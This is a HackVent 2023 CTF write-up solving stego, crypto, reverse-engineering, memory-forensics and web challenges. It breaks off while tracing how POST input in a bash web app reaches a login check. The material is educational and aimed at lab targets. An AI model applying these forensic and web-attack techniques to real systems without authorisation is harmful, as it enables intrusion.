

# HV23
Solutions to the HackVent 2023 challenges by bread

- [HV23](#hv23)
  - [\[HV23.H1\] Kringle's Secret {easy, fun}](#hv23h1-kringles-secret-easy-fun)
    - [Description](#description)
    - [Solution](#solution)
      - [FLAG](#flag)
  - [\[HV23.H2\] Grinch's Secret {medium, fun}](#hv23h2-grinchs-secret-medium-fun)
    - [Description](#description-1)
    - [Solution](#solution-1)
      - [FLAG](#flag-1)
  - [\[HV23.H3\] Santa's Secret {hard, fun}](#hv23h3-santas-secret-hard-fun)
    - [Description](#description-2)
    - [Solution](#solution-2)
      - [Flag](#flag-2)
  - [\[HV23.01\] A letter from Santa {easy, fun}](#hv2301-a-letter-from-santa-easy-fun)
    - [Description](#description-3)
    - [Solution](#solution-3)
      - [FLAG](#flag-3)
  - [\[HV23.02\] Who am I? {easy, fun}](#hv2302-who-am-i-easy-fun)
    - [Description](#description-4)
    - [Solution](#solution-4)
      - [FLAG](#flag-4)
  - [\[HV23.03\] Santa's grille {easy, fun, crypto}](#hv2303-santas-grille-easy-fun-crypto)
    - [Description](#description-5)
    - [Solution](#solution-5)
      - [FLAG](#flag-5)
  - [\[HV23.04\] Bowser {easy, re}](#hv2304-bowser-easy-re)
    - [Description](#description-6)
    - [Solution](#solution-6)
    - [code golf solutions](#code-golf-solutions)
      - [FLAG](#flag-6)
  - [\[HV23.05\] Aurora {easy, fun}](#hv2305-aurora-easy-fun)
    - [Description](#description-7)
    - [Solution](#solution-7)
      - [FLAG](#flag-7)
  - [\[HV23.06\] Santa should use a password manager {easy, fun, forensics}](#hv2306-santa-should-use-a-password-manager-easy-fun-forensics)
    - [Description](#description-8)
    - [Solution](#solution-8)
      - [FLAG](#flag-8)
  - [\[HV23.07\] The golden book of Santa {easy, web security, network security, forensics}](#hv2307-the-golden-book-of-santa-easy-web-security-network-security-forensics)
    - [Description](#description-9)
    - [Solution](#solution-9)
    - [code golf (46)](#code-golf-46)
      - [FLAG](#flag-9)
  - [\[HV23.08\] SantaLabs bask {medium, web security}](#hv2308-santalabs-bask-medium-web-security)
    - [Description](#description-10)
    - [Solution](#solution-10)
    - [code golf (312)](#code-golf-312)
      - [FLAG](#flag-10)
  - [\[HV23.09\] Passage encryption {medium, fun, network security}](#hv2309-passage-encryption-medium-fun-network-security)
    - [Description](#description-11)
    - [Solution](#solution-11)
  - [\[HV23.10\] diy-jinja {medium, web security}](#hv2310-diy-jinja-medium-web-security)
    - [Description](#description-12)
    - [Solution](#solution-12)
      - [FLAG](#flag-11)
  - [\[HV23.11\] Santa's Pie {medium, forensics}](#hv2311-santas-pie-medium-forensics)
    - [Description](#description-13)
    - [Solution](#solution-13)
      - [FLAG](#flag-12)
  - [\[HV23.12\] unsanta {medium, crypto}](#hv2312-unsanta-medium-crypto)
    - [Description](#description-14)
    - [Solution](#solution-14)
      - [FLAG](#flag-13)
  - [\[HV23.13\] Santa's Router {medium, crypto}](#hv2313-santas-router-medium-crypto)
    - [Description](#description-15)
    - [Solution](#solution-15)
      - [FLAG](#flag-14)
  - [\[HV23.14\] Crypto Dump {medium, crypto, forensics, re}](#hv2314-crypto-dump-medium-crypto-forensics-re)
    - [Description](#description-16)
    - [Solution](#solution-16)
      - [FLAG](#flag-15)
  - [\[HV23.15\] pREVesc {hard, linux, RE}](#hv2315-prevesc-hard-linux-re)
    - [Description](#description-17)
    - [Solution](#solution-17)
      - [FLAG](#flag-16)
  - [\[HV23.16\] Santa's Gift Factory {hard, exploitation}](#hv2316-santas-gift-factory-hard-exploitation)
    - [Description](#description-18)
    - [Solution](#solution-18)
      - [FLAG](#flag-17)
  - [\[HV23.17\] Lost Key {hard, forensics, crypto}](#hv2317-lost-key-hard-forensics-crypto)
    - [Description](#description-19)
    - [Solution](#solution-19)
      - [FLAG](#flag-18)
  - [\[HV23.18\] Evil USB {hard, RE}](#hv2318-evil-usb-hard-re)
    - [Description](#description-20)
    - [Solution](#solution-20)
      - [FLAG](#flag-19)
  - [\[HV23.19\] Santa's Minecraft Server {hard, linux, pentest}](#hv2319-santas-minecraft-server-hard-linux-pentest)
    - [Description](#description-21)
    - [Solution](#solution-21)
      - [FLAG](#flag-20)
  - [\[HV23.20\] Santa's Candy Cane Machine {hard, RE}](#hv2320-santas-candy-cane-machine-hard-re)
    - [Description](#description-22)
    - [Solution](#solution-22)
      - [FLAG](#flag-21)
  - [\[HV23.21\] Shopping List {hard, binary}](#hv2321-shopping-list-hard-binary)
    - [Description](#description-23)
    - [Solution](#solution-23)
      - [FLAG](#flag-22)
  - [\[HV23.22\] Secure Gift Wrapping Service {leet, exploitation}](#hv2322-secure-gift-wrapping-service-leet-exploitation)
    - [Description](#description-24)
    - [Solution](#solution-24)
      - [FLAG](#flag-23)
  - [\[HV23.23\] Roll your own RSA {leet, crypto}](#hv2323-roll-your-own-rsa-leet-crypto)
    - [Description](#description-25)
    - [Solution](#solution-25)
      - [FLAG](#flag-24)
  - [\[HV23.24\] Santa's Shuffled Surprise {leet, forensics, RE}](#hv2324-santas-shuffled-surprise-leet-forensics-re)
    - [Description](#description-26)
    - [Solution](#solution-26)
  - [Thank you](#thank-you)


## [HV23.H1] Kringle's Secret {easy, fun}
### Description
Can you feel it? I feel like there's a... hidden flag in one of the easy challenges!
### Solution
this is near impossible to solve especially if the image you extract from day 6 (Santa should use a password manager) has this sha1sum
```
solvable sha1sum  == fa8e0753360738c601df4fe77a74e4ad36af26ce 
unsolvable sha1sum == d8e8ccd1b9c719f7d12910c2f46b5b39bbb6e46e
```

thank you `blindhero` for the help. 

in the end this was just a basic stego challenge which I solved with `zsteg`
```sh
bread@bread-x64:/ctf/HV23/day6$ zsteg fa8e0753360738c601df4fe77a74e4ad36af26ce.png
b1,rgb,lsb,xy       .. text: "HV23{no_ctf_without_stego}"
b2,r,msb,xy         .. text: "TUUUUUUUUUUUUUUUUUUU"
b2,b,msb,xy         .. text: ["U" repeated 16 times]
b2,rgb,msb,xy       .. text: "ATUUUEQAPU"
b2,bgr,msb,xy       .. text: "EQDQUUUEQ"
b2,rgba,lsb,xy      .. text: "w7gsscgsc73#"
b2,abgr,msb,xy      .. text: "SGSGGGGGGGGGGGGGGGGGGGG"
b3,rgba,lsb,xy      .. text: "Su7Su7Su7S"
b4,r,lsb,xy         .. text: "33\"332##\"%EUUUDC5UEEUTEEEUDUUDDDDDDDFfffffffffff"
b4,r,msb,xy         .. text: "\"\"\"\"\"\"\"bfffffffffff"
b4,g,lsb,xy         .. text: "\"\"\"$DDDDDDDD\"\"\"\"\"\"\"\"\"\"\"$B\"\"\"DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDfffffDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDfffff"
b4,g,msb,xy         .. text: "wwwwwwww@"
b4,b,lsb,xy         .. text: "\"\"$$\"\"\"\"\"\"\"\"\"\"\"DDDDDDDDDDDDDDDDDDFffDffDdDfffffffffffffffffffffffffffffffff"
b4,b,msb,xy         .. text: "DD$$DDDDDDDDDDD\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"bff\"ff\"&\"fffffffffffffffffffffffffffffffff"
b4,rgb,lsb,xy       .. text: "HDdFDdFD"
b4,rgb,msb,xy       .. text: "r$Gr$Grd'"
b4,bgr,lsb,xy       .. text: "HDdFDdFD"
b4,bgr,msb,xy       .. file: MIDI audio System Exclusive (SysEx) message - Moog, at 4 EOX, at 9 EOX
b4,rgba,lsb,xy      .. text: "N/N/N/N/N/nO`/bO`/`/`/`/`/`/`/`/`/`/`/`/`/`/`/`/`/`/`/`/"
b4,abgr,msb,xy      .. text: "'O'O'O'O'O'/gO`/dO`O`O`O`O`O`O`O`O`O`O`O`O`O`O`O`O`O`O`O`O"
```

first line has the flag. `b1,rgb,lsb,xy ` means bit 1, all colour channels, least signficant bit order, pixel order row then column.

#### FLAG
    HV23{no_ctf_without_stego}

## [HV23.H2] Grinch's Secret {medium, fun}
### Description
Santa usually only gifts one present per kid, but one of his elves accidentally put two presents in the bag for a single kid! Somewhere in the medium challenges, you can find the second gift.
### Solution
I actually solved this first and in the process of solving this I got the flag for day11.

once you get the output from the XOR of the day11 data you are left with a rick-roll.

```
Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. 
....
```
if you look at this you should think, why do it just use those 2 parts of the lyrics and you will notice that up and down are not in a pattern.
so, if we remove all the `Never gonna give you ` and the `Never gonna let you ` and the flag from day11. you are left with 
```
up. down. up. up. down. up. up. up. up. down. up. down. up. down. down. up. up. up. down. down. up. up. down. up. up. up. down. down. up. up. down. down. up. down. down. down. down. up. down. down. up. down. down. up.
```
so, let’s just make up=0 down=1 because if this is binary its likely to be ascii and the `MSB` of ASCII is always a zero.
and we get 
```
01001000010101100011001000110011011110110110100000110001011001000110010001100101011011100101111101110010001100010110001101101011011100100011000000110001001100010111110101001000010101100011001000110011011110110110100000110001011001000110010001100101011011100101111101110010001100010110001101101011011100100011000000110001001100010111110101001000010101100011001000110011011110110110100000110001011001000110010001100101011011100101111101110010001100010110001101101011011100100011000000110001001100010111110101001000010101100011001000110011011110110110100000110001011001000110010001100101011011100101111101110010001100010110001101101011011100100011000000110001001100010111110101001000010101100011001000110011011110110110100000110001011001000110010001100101011011100101111101110010001100010110001101101011011100100011000000110001001100010111110101001000010101100011001000110011011110110110100000110001011001000110010001100101011011100101111101110010001100010110001101101011011100100011000000110001001100010111110101001000
```
[Put that in cyberchef because we are lazy](https://gchq.github.io/CyberChef/#recipe=From_Binary('Space',8)&input=MDEwMDEwMDAwMTAxMDExMDAwMTEwMDEwMDAxMTAwMTEwMTExMTAxMTAxMTAxMDAwMDAxMTAwMDEwMTEwMDEwMDAxMTAwMTAwMDExMDAxMDEwMTEwMTExMDAxMDExMTExMDExMTAwMTAwMDExMDAwMTAxMTAwMDExMDExMDEwMTEwMTExMDAxMDAwMTEwMDAwMDAxMTAwMDEwMDExMDAwMTAxMTExMTAxMDEwMDEwMDAwMTAxMDExMDAwMTEwMDEwMDAxMTAwMTEwMTExMTAxMTAxMTAxMDAwMDAxMTAwMDEwMTEwMDEwMDAxMTAwMTAwMDExMDAxMDEwMTEwMTExMDAxMDExMTExMDExMTAwMTAwMDExMDAwMTAxMTAwMDExMDExMDEwMTEwMTExMDAxMDAwMTEwMDAwMDAxMTAwMDEwMDExMDAwMTAxMTExMTAxMDEwMDEwMDAwMTAxMDExMDAwMTEwMDEwMDAxMTAwMTEwMTExMTAxMTAxMTAxMDAwMDAxMTAwMDEwMTEwMDEwMDAxMTAwMTAwMDExMDAxMDEwMTEwMTExMDAxMDExMTExMDExMTAwMTAwMDExMDAwMTAxMTAwMDExMDExMDEwMTEwMTExMDAxMDAwMTEwMDAwMDAxMTAwMDEwMDExMDAwMTAxMTExMTAxMDEwMDEwMDAwMTAxMDExMDAwMTEwMDEwMDAxMTAwMTEwMTExMTAxMTAxMTAxMDAwMDAxMTAwMDEwMTEwMDEwMDAxMTAwMTAwMDExMDAxMDEwMTEwMTExMDAxMDExMTExMDExMTAwMTAwMDExMDAwMTAxMTAwMDExMDExMDEwMTEwMTExMDAxMDAwMTEwMDAwMDAxMTAwMDEwMDExMDAwMTAxMTExMTAxMDEwMDEwMDAwMTAxMDExMDAwMTEwMDEwMDAxMTAwMTEwMTExMTAxMTAxMTAxMDAwMDAxMTAwMDEwMTEwMDEwMDAxMTAwMTAwMDExMDAxMDEwMTEwMTExMDAxMDExMTExMDExMTAwMTAwMDExMDAwMTAxMTAwMDExMDExMDEwMTEwMTExMDAxMDAwMTEwMDAwMDAxMTAwMDEwMDExMDAwMTAxMTExMTAxMDEwMDEwMDAwMTAxMDExMDAwMTEwMDEwMDAxMTAwMTEwMTExMTAxMTAxMTAxMDAwMDAxMTAwMDEwMTEwMDEwMDAxMTAwMTAwMDExMDAxMDEwMTEwMTExMDAxMDExMTExMDExMTAwMTAwMDExMDAwMTAxMTAwMDExMDExMDEwMTEwMTExMDAxMDAwMTEwMDAwMDAxMTAwMDEwMDExMDAwMTAxMTExMTAxMDEwMDEwMDA0)

#### FLAG
    HV23{h1dden_r1ckr011}

## [HV23.H3] Santa's Secret {hard, fun}
### Description
Not once, not twice, but three times Santa has hidden something in one of his gifts now!? Unbelievable...
### Solution

see my solution for [\[HV23.20\] Santa's Candy Cane Machine {hard, RE}](#hv2320-santas-candy-cane-machine-hard-re)

I just changed `ProductNames.CandyCaneMachine2000.value` to `ProductNames.CandyCaneMachine.value`

```sh
bread@bread-x64:/CTFS/HV23/day20$ python3 solve.py 
[+] Bytes: b'\xa6D\xc0e\xa6D\xc0e\x01\x00\x00\x00\x00\x00\x02\x00'
[+] Binary to array: [20, 25, 2, 12, 0, 25, 13, 6, 8, 19, 0, 6, 10, 0, 8, 0, 0, 0, 0, 0, 0, 0, 0, 2, 0]
[+] shuffle: 11
[+] unshuffled array: [10, 10, 23, 10, 15, 10, 17, 6, 9, 29, 2, 7, 10, 16, 2, 10, 17, 10, 10, 10, 10, 15, 7, 10, 0]
[+] key: CCRCH-CK8BX-49CJ4-CKCCC-CH9C2
```

#### Flag
    HV23{sup3r-h1dd3n-k3yg3n-fl4g}

## [HV23.01] A letter from Santa {easy, fun}
### Description

Finally, after 11 months of resting, Santa can finally send out his presents and challenges again. He was writing a letter to his youngest baby elf, who's just learning his A-Z's. Can you help the elf read the message?
The challenge scope includes only the main website on port 443, which you get linked to in the Resources. Do not attack other ports.
Start the website from the Resources and get the flag.
Flag format: HV23{}
This challenge was written by `coderion`. A first one of many!

### Solution
first things first I looked at the code couldn’t see it reading a flag file so it must be in the code itself so I looked at the jinja2 template and all I could see was 
```html
<span class='a'>{{f}}</span><span class='a'>{{b}}</span><span class='a'>{{a}}</span><span class='a'>{{x}}</span><span class='b'>{{m}}</span>....
```
so, my thinking was oh... if this is a substitute cipher then anything that is a span b is skipped.
so, I went down that rabbit hole only to find nothing.
I then thought ok maybe its binary with:

```py 
class='a' == 0 and class='b' == 1
```
this was nothing again. at least from a quick look, its classed as an easy, so I’m not trying to overdo it.

but since nothing stood out, I thought why not just use the website and look at the output. 

so, I started collecting outputs for each letter and pasting it into word since word kept the output background colouring.
after getting a few, I noticed that it’s kind of forming a QR.
so, I decided that I need to make it cleaner so I tested if it would work with a full width blank char.
it did! but the formatting was gone from word, so I just started using snippet and paint.

manually did all letters and had a QR.
scan to win.

#### FLAG
	HV23{qr_c0des_fun}


## [HV23.02] Who am I? {easy, fun}
### Description
Have you ever wished for an efficient dating profile for geeks? Here's a great example:
```raw
G d--? s+: a+++ C+++$ UL++++$ P--->$ L++++$ !E--- W+++$ N* !o K--? w O+ M-- V PS PE Y PGP++++ t+ 5 X R tv-- b DI- D++ G+++ e+++ h r+++ y+++
```
Flag format: HV23{<Firstname Lastname>}
### Solution
this was probably too easy given how specific search engines can get.

I googled `G d--? s+: a+++ C+++$ UL++++$ P--->$ L++++$ !E--- W+++$ N* !o K--? w O+ M-- V PS PE Y PGP++++ t+ 5 X R tv-- b DI- D++ G+++ e+++ h r+++ y+++`
then found out its `Geek code`

looked for a decoder, found https://www.dcode.fr/geek-code
put the code in and looked for names
found `PGP	I am Philip Zimmerman. `

#### FLAG
	HV23{Philip Zimmerman}


## [HV23.03] Santa's grille {easy, fun, crypto}
### Description
Introduction
While contemplating the grille and turning some burgers, Santa decided to send all the hackers worldwide some season's greetings.

### Solution

So ended up doing this manually even though I had the answer for ages.

both, https://merri.cx/enigmator/cipher/grille.html and https://www.dcode.fr/turning-grille-cipher#f0
failed me.
while you can get the answer sort of, they wasted so much of my time.


so how I did it manually I could see it was a rotating grille cipher and given we know the plaintext `HV23{`
I had the holes figured out pretty early since I then noticed the end bracket in the bottom right so I knew it was anti clockwise and that `m` was part of the starting 5 chars.
after that it was just left to right top to bottom for char order.
```
Holes       Cipher
--------------------
▮▮▮▮▮ 	8 c t k 3
▮▮▯▯▮	2 r H V r
▯▮▮▮▮	2 y ~ 0 v
▮▮▮▮▮	2 e n 3 _
▮▯▮▯▯	} 3 h { m
```
So, applying the key and rotating anti-clockwise gets you
```
1. HV23{m
2. 3rry_h
3. 8ckven
4. t2023}
```

just after submitting I went back to the online tools to see if they worked and I found if you replace the non `[A-Za-z0-9]` chars with `X`, that [dcode](https://www.dcode.fr/turning-grille-cipher#f0) would work, just need to replace them after.
`HV23XM3RRYXH8CKVENT2023X`


and for [merri.cx](https://merri.cx/enigmator/cipher/grille.html) it only rotates clockwise so you get the string but need to reorder it. 
`t2023}8ckven3rry_hHV23{m`

#### FLAG
	HV23{m3rry_h8ckvent2023}

## [HV23.04] Bowser {easy, re}
### Description
Santa has heard that some kids appreciate a video game as a Christmas gift. He would rather have the kids solve some CTF challenges, so he took some inspiration and turned it into a challenge. Can you save the princess?
### Solution
I’m lazy so I put it in Ghidra and looked at the Pseudo C

could see the flag variable so I copied out that section
then noticed the for loop is just doing a `NOT`
so, I put it in cyberchef after stripping everything out but the hex

`ac 90 8d 8d 86 d3 df 86 90 8a 8d df 99 93 9e 98 df 96 8c df 96 91 df 9e 91 90 8b 97 9a 8d df 9c 9e 8c 8b 93 9a d1 ff b7 a9 cd cf cd cc 84 a6 90 8a a0 b7 9e 89 9a a0 ac 9e 89 9a 9b a0 8b 97 9a a0 af 8d 96 91 9c 9a 8c 8c 82`

https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')NOT()&input=YWMgOTAgOGQgOGQgODYgZDMgZGYgODYgOTAgOGEgOGQgZGYgOTkgOTMgOWUgOTggZGYgOTYgOGMgZGYgOTYgOTEgZGYgOWUgOTEgOTAgOGIgOTcgOWEgOGQgZGYgOWMgOWUgOGMgOGIgOTMgOWEgZDEgZmYgYjcgYTkgY2QgY2YgY2QgY2MgODQgYTYgOTAgOGEgYTAgYjcgOWUgODkgOWEgYTAgYWMgOWUgODkgOWEgOWIgYTAgOGIgOTcgOWEgYTAgYWYgOGQgOTYgOTEgOWMgOWEgOGMgOGMgODI

### code golf solutions
```sh
printf "b 55\nr mario\np flag"|gdb *
```
#### FLAG
    HV2023{You_Have_Saved_the_Princess}

## [HV23.05] Aurora {easy, fun}
### Description
The Northern Lights appeared at exceptionally low latitudes this year due to the high level of solar activity. 
But from Santa's grotto at the North Pole, it's not unusual at all to see them stretching across the sky. 
Snowball the elf tried to capture a video of the aurora for his Instagram feed, but his phone doesn't work well in poor light, 
and the results were rather grainy and disappointing. Is there anything you can do to obtain a clearer image?

Download the attachment and find the flag.

### Solution
oomph to be honest I was reading a little too much into the remove the noise element of this challenge 
and spent way to long looking at ffmpeg filters that would work for me.

I got one that worked enough for me to get the flag, but this was not enjoyable that’s for sure.
had I gathered I needed to extract all frames and average the pixels, then I would have liked it.

ah well, anyway here is my solution.
```sh
ffmpeg -i aurora.mp4 -vf "hqdn3d=150:150:150:150,eq=brightness=0.1:contrast=1.2" output2.mp4
ffmpeg -i aurora.mp4 -vf "hqdn3d=80:80:80:80,eq=brightness=0.001:contrast=1.5" output2.mp4 
```

#### FLAG
	HV23{M4gn3t0sph3r1c_d1sturb4nc3}


## [HV23.06] Santa should use a password manager {easy, fun, forensics}
### Description
Santa is getting old and has troubles remembering his password. He said password Managers are too complicated for him and he found a better way. So, he screenshotted his password and decided to store it somewhere handy, where he can always find it and where it’s easy to access.

Santa recommends the volatility profile Win10x64_18362

### Solution
straight away since we are given a profile, it’s a forensics challenge and I’m familiar with volatility I gathered, yep this is mem forensics, what I didn’t gather is that setting up volatility on ubuntu was going to take so much time. and since I was taking so long, I wanted to know I was on the right path so I gave my hypnosis to `d-ArkAngel` and they said had trouble with setting up volatility so why don’t I try volatility 3.

damn...
so many hours debugging. wasted.

anyway, got it working and started dumping

started with processes
```sh
python3 vol.py -f /CTFS/HV23/memory.raw windows.pslist | more
```

```sh
bread@bread-x64:/opt/volatility3$ python3 vol.py -f /CTFS/HV23/memory.raw windows.pslist
Volatility 3 Framework 2.5.2
Progress:  100.00               PDB scanning finished                        
PID     PPID    ImageFileName   Offset(V)       Threads Handles SessionId       Wow64   CreateTime      ExitTime        File output

4       0       System  0x918b7007c080  144     -       N/A     False   2023-11-17 23:48:56.000000      N/A     Disabled
68      4       Registry        0x918b700ac080  4       -       N/A     False   2023-11-17 23:48:42.000000      N/A     Disabled
3...
3876    688     LockApp.exe     0x918b7644f080  9       -       1       False   2023-11-17 23:50:55.000000      N/A     Disabled
3...
6320    3240    cmd.exe 0x918b78f75480  2       -       1       False   2023-11-17 23:54:44.000000      N/A     Disabled
...
7356    3240    notepad.exe     0x918b770644c0  2       -       1       False   2023-11-17 23:56:41.000000      N/A     Disabled
...
3824    3240    notepad.exe     0x918b789df0c0  2       -       1       False   2023-11-17 23:57:22.000000      N/A     Disabled
4144    3240    notepad.exe     0x918b784760c0  2       -       1       False   2023-11-17 23:57:22.000000      N/A     Disabled
5500    3240    notepad.exe     0x918b7899d080  2       -       1       False   2023-11-17 23:57:28.000000      N/A     Disabled
6960    688     Microsoft.Phot  0x918b765d5080  32      -       1       False   2023-11-17 23:58:22.000000      N/A     Disabled
```

I didn’t read the description correctly so I started running tools [volatility-3-plugin](https://medium.com/@rifqiaramadhan/volatility-3-plugin-kusertime-notepad-sticky-evtxlog-f0e8739eee55) against the notepad files and sticky notes, I got some info but not much.

```sh
python3 vol.py -f /CTFS/HV23/memory.raw notepad
python3 vol.py -f /CTFS/HV23/memory.raw sticky
```

```
Dear Jay HoHoHo.  I hear you've been good this year! Mrs. Claus andI are so proud of you. Here at the North Pole digitalization and computer now have taken over. This is why I send you this letter as an email. The toy shop is full of of toys ready to be moved to the sleight, the reindeer are already waiting paitently. I have just finished checking my list and I see you have also asked for some wonderful new things. I'll be sure to tell Rudolph to make a stop at your house again this year. Your Santa Claus -804003bafa0b}
```

but then I did read it so I gathered I need to get it some other way. I gathered probably a picture

```sh
bread@bread-x64:/opt/volatility3$ sudo python3 vol.py -f /CTFS/HV23/memory.raw filescan | grep -iP "jpeg|jpg|png|bmp"
0x918b7602a230.0\Program Files\WindowsApps\Microsoft.Windows.Photos_2023.10070.17002.0_x64__8wekyb3d8bbwe\Assets\Blank_PhotosSplashWideTile.png	216
0x918b760e8750	\Users\santa\Pictures\wallpaper.png	216
0x918b760e88e0	\Users\santa\AppData\Local\Packages\Microsoft.Windows.Photos_8wekyb3d8bbwe\LocalState\PhotosAppBackground\wallpaper.png	216
0x918b760ed250	\Users\santa\Pictures\wallpaper.png	216
0x918b760ed3e0	\Users\santa\AppData\Local\Packages\Microsoft.Windows.Photos_8wekyb3d8bbwe\LocalState\PhotosAppBackground\wallpaper.png	216
0x918b760f8150	\Users\santa\AppData\Roaming\Microsoft\Windows\Themes\CachedFiles\CachedImage_1024_785_POS4.jpg	216
0x918b76974b60	\Program Files\WindowsApps\Microsoft.MicrosoftStickyNotes_6.0.1.0_x64__8wekyb3d8bbwe\Assets\Devices-light.png	216
0x918b76c468f0	\Users\santa\AppData\Roaming\Microsoft\Windows\Themes\CachedFiles\CachedImage_1680_1050_POS4.jpg	216
0x918b76c517f0	\Users\santa\Pictures\wallpaper.png	216
0x918b76c54860	\Users\santa\AppData\Local\Packages\Microsoft.Windows.Photos_8wekyb3d8bbwe\LocalState\PhotosAppLockscreen\wallpaper.png	216
0x918b76c56160	\Users\santa\AppData\Local\Packages\Microsoft.Windows.Photos_8wekyb3d8bbwe\LocalState\PhotosAppLockscreen\wallpaper.png	216
0x918b76c64a30	\Users\santa\Pictures\cool-santa-claus.jpg	216
0x918b771069c0	\Users\santa\Pictures\wallpaper.png	216
0x918b771082c0	\Program Files\WindowsApps\Microsoft.MicrosoftStickyNotes_6.0.1.0_x64__8wekyb3d8bbwe\Assets\NewNotePlaceholder-light.png	216
0x918b7710a840	\Program Files\WindowsApps\Microsoft.MicrosoftStickyNotes_6.0.1.0_x64__8wekyb3d8bbwe\Assets\SearchPlaceholder-light.png	216
0x918b7710d270	\Program Files\WindowsApps\Microsoft.MicrosoftStickyNotes_6.0.1.0_x64__8wekyb3d8bbwe\Assets\SignInUpsellCloud.png	216
0x918b7711c7c0	\Users\santa\Pictures\cool-santa-claus.jpg	216
0x918b77131490	\Users\santa\AppData\Roaming\Microsoft\Windows\Themes\CachedFiles\CachedImage_1680_1050_POS4.jpg	216

```

had a few so I started bottom up.


```
bread@bread-x64:/opt/volatility3$ sudo python3 vol.py -f /CTFS/HV23/memory.raw dumpfile --virtaddr 0x918b76c64a30
Volatility 3 Framework 2.5.2
Progress:  100.00		PDB scanning finished                        
Cache	FileObject	FileName	Result

DataSectionObject	0x918b76c64a30	cool-santa-claus.jpg	Error dumping file
bread@bread-x64:/opt/volatility3$ sudo python3 vol.py -f /CTFS/HV23/memory.raw dumpfile --virtaddr 0x918b760f8150
Volatility 3 Framework 2.5.2
Progress:  100.00		PDB scanning finished                        
Cache	FileObject	FileName	Result

DataSectionObject	0x918b760f8150	CachedImage_1024_785_POS4.jpg	file.0x918b760f8150.0x918b755a8ca0.DataSectionObject.CachedImage_1024_785_POS4.jpg.dat

```

oh, success let look at the file,
```
mv file.0x918b760f8150.0x918b755a8ca0.DataSectionObject.CachedImage_1024_785_POS4.jpg.dat CachedImage_1024_785_POS4.jpg
```


woo scanned and we win.

#### FLAG
    HV23{FANCY-W4LLP4p3r}

## [HV23.07] The golden book of Santa {easy, web security, network security, forensics}

### Description
An employee found out that someone is selling secret information from Santa's golden book. For security reasons, the service for accessing the book was immediately stopped and there is now only a note about the maintenance work. However, it still seems possible that someone is leaking secret data.

### Solution
this one I’m not going to go into a lot of detail about my solution because I wasted maybe 2 hours looking for web exploits like [maintenance-mode-bypass](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/cmp-coming-soon-maintenance/cmp-coming-soon-maintenance-417-maintenance-mode-bypass) and
[maintenance-mode-bypass](https://github.com/advisories/GHSA-8hvr-7cm7-7fwj) which seem way more fitting for the description and challenge categories and so much more.

after getting a little nudge thanks `0xdf` I basically understood that it’s not web as most would categorise web, but its web in the sense that it uses chunking to exfiltration the flag.

so, once you just do a `netcat` connection to the host and look at the output in full you will see the chunk values are kind of odd.
like why is it chunking random amounts and not just a fixed amount.

anyway, I first solved it like this `nc 152.96.15.5 80| head` and skim read the output noticed the chunks decided I wanted it all
so, I did `nc 152.96.15.5 80>a` then just stripped all the values other than the chunks then removed the 9 and do hex to ascii in cyberchef.

```
ac 90 8d 8d 86 d3 df 86 90 8a 8d df 99 93 9e 98 df 96 8c df 96 91 df 9e 91 90 8b 97 9a 8d df 9c 9e 8c 8b 93 9a d1 ff b7 a9 cd cf cd cc 84 a6 90 8a a0 b7 9e 89 9a a0 ac 9e 89 9a 9b a0 8b 97 9a a0 af 8d 96 91 9c 9a 8c 8c 82
```

I then wanted to challenge myself to a code golf solution.

### code golf (46) 
```sh
echo|nc 0x98600f05 80|sed -n s/^9//p|xxd -r -p
```

#### FLAG
    HV23{here_is_your_gift_in_small_pieces}


## [HV23.08] SantaLabs bask {medium, web security}

### Description
Ditch flask and complicated python. With SantaLabs bask, you can write interactive websites using good, old bash and even template your files by using dynamic scripting!

### Solution

So, upon downloading the source you notice it’s all bash. which is kind of nice.
skim reading the `.sh` files I figured the most important ones are where a user has some input.

which is in `bask.sh` under `function handleRequest() {`
as you can see it reads the users input and puts it in `INPUT_VALUE`
```sh
# Read body data on POST
    if [ -n "$CONTENT_LENGTH" ]; then
      BODY_REGEX='(.*?)=(.*?)'

      # Read the remaining request body
      while read -r -n "$CONTENT_LENGTH" -t1 body; do
        echo "$body"
        INPUT_VALUE=$(echo "$body" | sed -E "s/$BODY_REGEX/\2/")
      done
    fi
```
which is then pasted to `post_login.sh`
```sh
...
 "POST /login")
        RESPONSE=$(POST_PASSWORD=$INPUT_VALUE bash templates/post_login.sh) ;;
```

in `post_login.sh` we can see there is a check to see if you’re entering the admin password.
if successful it sets a cookie to the value we entered and redirects you to `admin.sh`
```sh
